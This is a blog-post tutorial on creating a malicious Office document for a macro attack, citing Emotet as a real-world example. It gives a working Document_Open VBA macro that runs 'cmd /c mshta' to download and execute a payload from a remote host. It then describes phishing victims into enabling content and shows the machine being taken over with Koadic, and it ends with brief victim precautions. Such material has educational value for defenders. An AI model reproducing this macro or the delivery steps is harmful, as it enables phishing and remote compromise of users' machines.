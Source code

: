 ```yaml
---
title: "Create malicious office documents (Macro attack)"
date: "2020-04-19"
layout: single
tags:
- Malware
categories:
- Blog-post
---
```


Hello world.

This blog post is tend to show how macro attack works. 

In real scenario, attacker may phishing user by email user with some sort of business or organization matter etc., if user download and execute those malicious file, their machine then will be compromised.

Successful rate for this macro attack being detected by AntiVirus is depend on how the obfuscation of the macro and the Antivirus(AV) signature itself. It's look like the more obfuscation made by attacker, the lower the chance of their malware being detected by AV. One of the popular malware using this type of attack is Emotet malware. They use macro attack to drop their payload, and then execute the executable at the end of the process.

Picture below from CyberReason show how of Emotet malware works.

![enter image description here](https://lh6.googleusercontent.com/2NuozHdR7FXjw0eHCtSOa0kJyTgTGbC1Q64bhXNi1gOCRW7lHJfrb8SnAXaN6wjY9BKmsd0RwekmY1y-fCk21CVv2CBmMPBMQb9iGDghRfLCZ8GfrN0DSRm6GH0D8Fc7HH2-iKpH)

We gonna create a basic malicious document attack that will execute mshta payload (without any obfuscation made) whenever user open our malicious document.

This blog post is for education and research purpose only. If you do something bad, do with your own risk.

## Create document file in Microsoft Word

We will create a word file first and at the end of this tutorial save it as `.doc`. 

Maybe as an attacker, they will display a message to phishing user to click `enable editing` and `enable content` of the document like below picture.

![pic1](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic1.png)

## Create macro 

Click on 'view" tab

![//pic2](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic2.png)

Click Macros

![//pic3](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic3.PNG)

Type any name you want for Macro name and click "create" to create the macro

![//pic4](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic4.PNG)

On "Project" path, click ThisDocument

![//pic5](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic5.PNG)

Write our malicious macro code like below

```
Sub document_open()
    Shell ("cmd /c mshta http://192.168.83.129:9999/TPXfI")
End Sub
```
![//pic6](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic6.PNG)

You can also use other payload command line like powershell etc. The mshta attack is just an example.

In my case here, this macro will execute mshta fileless payload.

## Save as .doc

We gonna choose `.doc` or `.docm` file format to save this document because this type of document support to execute macro attack.

![//pic7](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic7.PNG)

Now, we can deliver this malicious document to target user.


# User execute and enable content
Once user open the document and enable content of our malicious document, the user will be compromised.

Take a look at below gif on how it works.

![//pic8.gif](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic8.gif)

Koadic now has take control our target user.

# User (victim) precaution
- Verify sender address thoroughly
- Ensure Antivirus is legitimate and updated
- Take a precautionary measures like do not click "enable content" when opening `.doc` or `.docm` document format.
